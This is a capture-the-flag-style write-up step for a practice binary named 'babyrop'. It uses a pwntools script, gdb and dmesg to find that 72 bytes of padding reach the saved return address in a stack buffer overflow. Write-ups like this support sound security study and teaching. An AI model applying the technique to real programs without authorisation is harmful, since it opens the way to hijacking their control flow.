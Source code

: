 ## Calculate the padding to overwrite return
First we want to find the amount of overflow we need to overwrite the `return`.  We can send characters to the program using the [pwntools](pwntools.md) cyclic function. We write an initial script to do this in *gdb* so we can see the stack contents:
```python
#!/usr/bin/env python3
from pwn import *

# Run in gdb so we can see the characters on the stack
p = gdb.debug('./babyrop', 'c')

# Run until we hit the prompt
p.recvuntil("Your name:")

# Our buffer is 64 bytes, so send 90 to test make sure!
p.sendline(cyclic(90))

# Then interact if we need to
p.interactive()
```
Looking at the *gdb* output after the crash, and using `info frame`, we can see our characters in the *saved RIP* are *0x6161617461616173*. Remember, these are reversed (little-endian), so our sequence that hit the return address is (when converted to ASCII characters) *saaataaa*:

![Return pointer](segmentation-fault.png)

We can find out exactly where this comes in the cyclic sequence with:
```
$ pwn cyclic -l saaa
72
```
So it takes 72 characters of padding before we start to overwrite the return address. We can check this using `pwn cyclic` and looking at `dmesg`. If we use 72 characters, it won't show in the segfault instruction pointer (and the segfault location). If we use 73 it will show the 's' at the LSB, and if we use 76 we'll see the 'saaa' :
```
$ pwn cyclic 72 | ./babyrop
Your name: Your name: Segmentation fault (core dumped)
$ dmesg | tail
...
[1925.989975] babyrop[3953]: segfault at 7f9c43f3f4d0 ip 00007f9c43f3f4d0 sp 00007fffac0d87a8 error 15
```